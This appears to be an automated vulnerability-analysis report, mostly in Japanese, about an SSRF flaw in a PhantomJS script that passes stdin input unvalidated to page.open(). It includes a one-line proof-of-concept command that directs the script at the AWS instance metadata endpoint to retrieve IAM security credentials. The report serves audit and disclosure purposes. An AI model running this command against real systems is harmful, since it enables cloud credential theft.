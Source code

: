 ## PAR Policy Analysis

## 詳細解析

このスクリプトでは、system.stdin.readLine()で外部入力を直接取得し、そのままpage.open()に渡してHTTPリクエストを発行しています。ユーザ制御可能なURLが検証や制限なしにサーバー側でリクエストされるため、SSRF脆弱性が存在します。攻撃者は内部ネットワークやメタデータサービスなどへの不正リクエストを実行可能です。

## PoC（概念実証コード）

```text
# 攻撃例: メタデータサービスへのアクセス
# 例: AWS IMDSにアクセスして認証情報を取得
echo "http://169.254.169.254/latest/meta-data/iam/security-credentials/" | phantomjs check.js
```

## 解析ノート

Identified SSRF: input from stdin flows into page.open. No validation or whitelist. Potential to reach internal services.

